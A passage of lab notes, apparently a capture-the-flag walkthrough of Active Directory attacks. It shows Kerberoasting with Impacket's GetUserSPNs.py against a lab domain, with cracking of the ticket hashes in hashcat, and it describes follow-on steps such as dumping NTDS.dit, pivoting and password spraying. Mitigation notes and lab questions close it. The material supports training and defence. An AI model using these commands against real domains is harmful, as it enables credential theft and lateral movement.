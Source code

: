3.) cd Impacket-0.9.19 navigate to the impacket directory

4.) pip install . - this will install all needed dependencies

Kerberoasting w/ Impacket -

1.) cd /usr/share/doc/python3-impacket/examples/ - navigate to where GetUserSPNs.py is located

2.) sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.197.112 -request - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash

What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

Mitigation - Defending the Forest

Kerberoasting Mitigation -

     Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
     Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

What is the HTTPService Password?

What is the SQLService Password?

## Task 5 AS-REP Roasting w/ Rubeus

## Task 6 Pass the Ticket w/ mimikatz

## Task 7 Golden/Silver Ticket Attacks w/ mimikatz

## Task 8 Kerberos Backdoors w/ mimikatz

## Task 9 Conclusion
